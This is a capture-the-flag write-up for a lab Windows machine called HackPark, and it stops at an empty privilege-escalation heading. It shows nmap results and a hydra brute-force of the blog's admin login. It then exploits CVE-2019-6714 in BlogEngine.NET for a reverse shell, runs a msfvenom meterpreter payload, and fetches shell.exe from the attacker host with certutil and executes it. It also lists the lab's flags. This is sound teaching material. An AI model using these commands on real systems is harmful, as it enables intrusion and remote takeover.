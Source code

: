 # HackPark

IP Address: 10.10.153.156

## Description

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Flags

1. 1qaz2wsx
2. dff0f748678f280250f25a45b8046b4a
3. 759bd8af507517bcfaede78a21a73e39

## Enumeration/Scanning

### Nmap:
```sh
sudo  nmap -Pn -vv -sC -oN hackpark.nmap 10.10.153.156
# Nmap 7.92 scan initiated Fri Sep 30 20:51:51 2022 as: nmap -Pn -vv -sC -oN hackpark.nmap 10.10.153.156
Nmap scan report for 10.10.153.156
Host is up, received user-set (0.19s latency).
Scanned at 2022-09-30 20:51:52 PDT for 22s
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-title: hackpark | hackpark amusements
3389/tcp open  ms-wbt-server syn-ack ttl 127
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-09-30T03:44:03
| Not valid after:  2023-04-01T03:44:03
| MD5:   171d 1cb7 2eb4 d0d1 fcf3 ac72 6f5b f174
| SHA-1: c5d0 fa60 2979 b050 dffd 5876 8512 1ba7 f1c9 6ea8
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQLsOBRmxH471IaYDwKItbazANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhoYWNrcGFyazAeFw0yMjA5MzAwMzQ0MDNaFw0yMzA0MDEwMzQ0
| MDNaMBMxETAPBgNVBAMTCGhhY2twYXJrMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA3fb4kyfqaYyzml/CAvY4lhYLmmtVWziJsEK5zshm2fPg+wwkYO7d
| G5kdDRKT5MptiMBneRiY1j9MNLnfrllffM4rTp9p+rKpEtj39W/0f9XaVM39aQFj
| KItXo2HdLMtFfJu4J+h/jlJVdp3hEY/GNfNXlEPCyeOWPKUBR7w40/CpmN6522IX
| grF7HTcygB2PSnjWwjaWEPzNLvDN+3Cy6+st9H7yZqm44+zU079bt/yqEo/DP/QA
| v0mxbGyBIEHu4ET72ezWBI2uKXekLxT2udoyO37nAJgWaf0hVOu8iCeeVJbkFj3l
| 5vqyny6D/IKMOj/uy8G02TDKO+IM59rMWQIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHp54gFE/mwz
| QlB+ez4ruTDoLxl4Dgt28G0Q5zbuqR8Z+bXirmLWgYO4RZ6jaNVkgONJo42RGspu
| sHYKSqWScaKvkPRrsnV5I56Y443JlwHehW1t8Q2Iis7rJ1pqpPfEjGpdShS5q+0f
| NIlW3XxccsLSoPADkRkYciXoA8RQatmzES7HWk8jbFOdFwc2w0ud4JtloUa51hAW
| U2dDVrYstgKYPZtyIAlsnbtoEoCf3fcl5AbP/8QLxzSSzkwHQwQeHUtZeEP5LCDS
| 5aQWgCjthLjxtKQTS+4bZ7MezYjU8AUmEelc92t/rsoE6SJ1ipcBV0QasX7NluZe
| F5HuhFE8VUw=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2022-10-01T03:52:10+00:00
|_ssl-date: 2022-10-01T03:52:10+00:00; 0s from scanner time.

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: -1s

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Sep 30 20:52:14 2022 -- 1 IP address (1 host up) scanned in 22.65 seconds
```

### Web Server

#### Port 80

Nmap disovered a web server on port 80, and after navigating there, we discover a login page that we can attempt to exploit.

![Webpage](img/webpage.png)

![Login Page](img/login-page.png)

##### Bruteforcing

Our first attempt is simply to try the username and passwork `admin`, but to no prevail. However, we can utilize `hydra` to try bruteforcing the administrator's login password.

To use `hydra` against a login page, we will need the ip address, request type, path to the login form, modified request, and failed login attempt message. 

**Username:** `admin`

**Request:** `POST`

**IP:** `10.10.153.156`

**Path:** `/Account/login.aspx`

To obtain the form and exploit with it, we must send a request with any login credentials, then capture the request and replace our password and user name with the variable that will be bruteforced, i.e., UserName=^USER^ and Password=^PASS^. However, since we know the username, we can hard code it in.

**Form:**           
`  __VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmXedDBrF      i4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&__EVENTVALIDATION      =APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CWKOLoh%2BVVmK6GQP1BReCLsS      SFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg26SQ&ctl00%24MainContent%24Logi      nUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24Login      Button=Log+in`
  
**Error Message:** Login failed

###### Exploit

```sh
 sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.153.156 http-post-form "/Account/login.aspx:
 __VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmX
 edDBrFi4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&
 __EVENTVALIDATION=APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CW
 KOLoh%2BVVmK6GQP1BReCLsSSFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg
 26SQ&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&
 ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
 
 Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-30 21:17:45
 [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
 [DATA] attacking http-post-form://10.10.153.156:80/Account/login.aspx:__VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmXedDBrFi4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&__EVENTVALIDATION=APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CWKOLoh%2BVVmK6GQP1BReCLsSSFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg26SQ&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
 [STATUS] 834.00 tries/min, 834 tries in 00:01h, 14343565 to do in 286:39h, 16 active
 [80][http-post-form] host: 10.10.153.156   login: admin   password: 1qaz2wsx
 1 of 1 target successfully completed, 1 valid password found
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-30 21:19:24
```

Now that we are signed in as admin (username = admin: password = 1qaz2wsx), we can navigate around and discover the version of the software used. Here we find that this is running BlogEngine version 3.3.6.0.

![Admin](img/admin.png)

### Exploitation

Searching on [Exploit Database](https://www.exploit-db.com), we find the exploit [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353) (CVE-2019-6714). We can use this to obtain a reverse shell on our target.

To exploit this, we need to start a listener, set the TcpClient address and port within the method, then upload the file as PostView.ascx by editing a post and clicking on the icon that looks like an open file in the toolbar. Once uploaded, the file will be in the /App_Data/files directory off of the document root. Finally, the vulnerability is triggered by accessing the base URL for the blog with a theme override specified like so: `http://10.10.10.10/?theme=../../App_Data/files`.


```
10.10.153.156/?theme=../../App_Data/files
```

```sh
 nc -lvnp 4445                                                                                         10:08:33 PM
 listening on [any] 4445 ...
 connect to [10.18.57.77] from (UNKNOWN) [10.10.153.156] 49295
 Microsoft Windows [Version 6.3.9600]
 (c) 2013 Microsoft Corporation. All rights reserved.
 c:\windows\system32\inetsrv>whoami
 iis apppool\blog
``` 

### Meterpreter

Now to set up a meterpreter shell to make privilege escalation easier.

Create the meterpreter payload.

```sh
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

Set up a Server.

```sh
python3 -m http.server 80
```

Set up the handler in metasploit.

```sh
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

On our Windows shell, we need to navigate to a directory we can write to, and then download the meterpreter shell from our python sever.

```
c:\windows\system32\inetsrv> cd "c:\\Users\Public"
c:\Users\Public> certutil -urlcache -f http://10.18.57.77/shell.exe shell.exe 
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
c:\Users\Public>dir
 Volume in drive C has no label.
  Volume Serial Number is 0E97-C552
   Directory of c:\Users\Public
   09/30/2022  10:26 PM    <DIR>          .
   09/30/2022  10:26 PM    <DIR>          ..
   08/22/2013  08:39 AM    <DIR>          Documents
   08/22/2013  08:39 AM    <DIR>          Downloads
   08/22/2013  08:39 AM    <DIR>          Music
   08/22/2013  08:39 AM    <DIR>          Pictures
   09/30/2022  10:26 PM            73,802 shell.exe
   08/22/2013  08:39 AM    <DIR>          Videos
                  1 File(s)         73,802 bytes
                                 7 Dir(s)  39,129,952,256 bytes free
c:\Users\Public> shell.exe                                
```                                 

Now we should have a meterpreter shell!

```sh
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.57.77:4444 
[*] Sending stage (175686 bytes) to 10.10.153.156
[*] Meterpreter session 1 opened (10.18.57.77:4444 -> 10.10.153.156:49324) at 2022-09-30 22:31:34 -0700

meterpreter > 
```

### Privilege Escalation





